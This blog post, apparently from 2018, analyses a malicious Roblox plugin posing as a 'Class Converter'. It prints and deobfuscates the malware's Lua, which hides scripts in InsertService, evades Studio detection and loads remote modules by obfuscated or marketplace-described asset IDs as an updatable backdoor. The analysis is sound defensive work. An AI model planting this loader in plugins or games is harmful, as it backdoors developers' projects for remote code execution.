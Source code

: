 # Decoding a malicious Roblox plugin
## 19/12/2018 - [theLMGN](https://thelmgn.com)

So, recently I found [this](https://www.roblox.com/library/2644964449/Class-Converter), it looked pretty useful as a thing. But I'd heard as of viruses being spread as Roblox plugins, so I decided to crack it open and download the original source code. (grab the plugin id and then go to https://roblox.com/asset?id={pluginid}, rename that to a RBXL file and open in Studio)

![image](https://lmgn.uk/WFZ0Ov.png)

There is nothing obvious in sight, however I decided to open the file named [`SET`](https://gist.github.com/theLMGN/c206dc874ed858be19ca009fae5219e1#file-set-lua), It was some strange LUA opcode alien script. I printed the data with the built in Roblox console, but however all I managed to extract from this was the word "LuaQ", Googled this and saw that it was LuaC, I created a small Node.JS script to convert this into an actual LuaC file, not just ASCII codes. [You can see the converted LuaC in the same Gist](https://gist.github.com/theLMGN/c206dc874ed858be19ca009fae5219e1#file-set-luac), It appeared to be actual, readable code. It had some wierd strings, and something called a "bphide" parented to the InsertService, this 100% is a trick to hide the scripts inside, due to the user not being able to see the InsertService in normal Studio usage, and is still pushed to Roblox servers. In the code there is also the name of a Roblox user NotAshley, I sent them a Roblox PM about this

![image](https://lmgn.uk/wjExdH.png)

Interestingly, a name of a group called "Fyre_Studios", I haven't found out what this is, any info, message me. The script is just another LuaC decoder, just with more interesting things.

## Alright, lets get to the meat of the virus


```lua
	bphide = Instance.new("Backpack", game:GetService("InsertService"))
bphide.Name = math.random(3, 5) .. rndname[math.random(#rndname)] .. math.random(1, 30000) .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)]
scrip = Instance.new("Script", bphide)
scripobfrequire = math.random(1, 400000)
scriptreqcode = 7.0493265740554e+18
scriptreqcode = (scriptreqcode + scripobfrequire) ^ 2
scrip.Source = "\115\112\97\119\110\40\102\117\110\99\116\105\111\110\40\41\103\97\109\101\58\87\97\105\116\70\111\114\67\104\105\108\100\40\39\92\56\51\92\49\48\49\92\49\49\52\92\49\49\56\92\49\48\49\92\49\49\52\92\56\51\92\57\57\92\49\49\52\92\49\48\53\92\49\49\50\92\49\49\54\92\56\51\92\49\48\49\92\49\49\52\92\49\49\56\92\49\48\53\92\57\57\92\49\48\49\39\41\105\102\32\103\97\109\101\58\71\101\116\83\101\114\118\105\99\101\40\39\92\56\55\92\49\49\49\92\49\49\52\92\49\48\55\92\49\49\53\92\49\49\50\92\57\55\92\57\57\92\49\48\49\39\41\46\84\101\114\114\97\105\110\58\70\105\110\100\70\105\114\115\116\67\104\105\108\100\40\39\92\54\55\92\57\55\92\49\48\56\92\49\48\56\92\55\48\39\41\116\104\101\110\32\114\101\116\117\114\110\32\101\110\100\59\105\102\32\103\97\109\101\58\71\101\116\83\101\114\118\105\99\101\40\39\92\56\50\92\49\49\55\92\49\49\48\92\56\51\92\49\48\49\92\49\49\52\92\49\49\56\92\49\48\53\92\57\57\92\49\48\49\39\41\58\73\115\83\116\117\100\105\111\40\41\116\104\101\110\32\114\101\116\117\114\110\32\101\110\100\59\112\99\97\108\108\40\102\117\110\99\116\105\111\110\40\41\114\101\113\117\105\114\101\40\109\97\116\104\46\115\113\114\116\40\109\97\116\104\46\115\113\114\116\40" .. scriptreqcode .. "\41\32\45\32" .. scripobfrequire .. ")).load(game.PlaceId)end)end)"
scrip.Disabled = false
scrip.Name = math.random(3, 5) .. rndname[math.random(#rndname)] .. math.random(1, 30000) .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)]

extr = Instance.new("Script", bphide)
extr.Source = "marketplaceService = game:GetService('MarketplaceService') productInfo = marketplaceService:GetProductInfo(2655062037) modulefunc = productInfo.Description modulefunc = tonumber(string.match(modulefunc, '%d+')) require(modulefunc)[tostring(productInfo.Name)](game.PlaceId)"
extr.Disabled = false
extr.Name = math.random(3, 5) .. rndname[math.random(#rndname)] .. math.random(1, 30000) .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)]

pcall(function()
	bphide.Parent = game["\67\83\71\68\105\99\116\105\111\110\97\114\121\83\101\114\118\105\99\101"]
end)end

```

Let's analyze this in chunks shall we?

### Hiding our traces.

```lua
bphide = Instance.new("Backpack", game:GetService("InsertService"))
bphide.Name = math.random(3, 5) .. rndname[math.random(#rndname)] .. math.random(1, 30000) .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)]
```
This code snippet creates a hidden backpack element in the "InsertService", something that isn't shown to users.

### Injecting our virus
```lua
scrip = Instance.new("Script", bphide)
scripobfrequire = math.random(1, 400000)
scriptreqcode = 7.0493265740554e+18
scriptreqcode = (scriptreqcode + scripobfrequire) ^ 2
scrip.Source = "spawn(function()game:WaitForChild('ServerScriptService')if game:GetService('Workspace').Terrain:FindFirstChild('CallF')then return end;if game:GetService('RunService'):IsStudio()then return end;pcall(function()require(math.sqrt(math.sqrt(" .. scriptreqcode .. ") - " .. scripobfrequire .. ")).load(game.PlaceId)end)end)"
scrip.Disabled = false
scrip.Name = math.random(3, 5) .. rndname[math.random(#rndname)] .. math.random(1, 30000) .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)]
```
This creates a hidden script element, a random number between 1,400000 (for easiness sake, lets use 200000) and 7049326574055400000, adds them together and squares them.
The `scrip.source` is really what we're looking for, it's obfuscated, so lets deobfuscate it shall we?

```lua
spawn(function()
	game:WaitForChild('ServerScriptService')
	if game:GetService('Workspace').Terrain:FindFirstChild('CallF') then
		return
	end
	if game:GetService('RunService'):IsStudio() then
		return 
	end
	pcall(function()
		require(math.sqrt(math.sqrt(scriptreqcode) - scripobfrequire)).load(game.PlaceId)
	end)
end)
```

The first line is just waiting for the game to be loaded. The next 6 are just stopping if there is something called `CallF` in the game's Terrain object and stopping the script if it's running in Roblox Studio (to prevent "Cannot find module ID" errors blowing our cover since closed source modules can't be downloaded in Studio)

It's the next 3 lines that really peak my interest. `pcall` is just Lua's version of a `try catch` block. The mathsie bit doesn't really need explaining so, it just returns the square root fo our `7.0493265740554e+18`, which is 2655056793, which is of course a closed source module, hurray! All for nothing! https://www.roblox.com/library/2655056793/Settings


### Loading a junk function
```lua
	extr = Instance.new("Script", bphide)
	extr.Source = "
		marketplaceService = game:GetService('MarketplaceService')
		productInfo = marketplaceService:GetProductInfo(2655062037)
		modulefunc = productInfo.Description
		modulefunc = tonumber(string.match(modulefunc, '%d+'))
		require(modulefunc)[tostring(productInfo.Name)](game.PlaceId)"
	extr.Disabled = false
	extr.Name = math.random(3, 5) .. rndname[math.random(#rndname)] .. math.random(1, 30000) .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)] .. rndname[math.random(#rndname)]
```

The module loaded at the end is just a junk module, however can be updated at any time to something more nefarious

```lua
local module = {}

module.none = function() -- This is the function that gets called by the code above
	return
end

module.testload = function()
	print("XD")
end

return module
```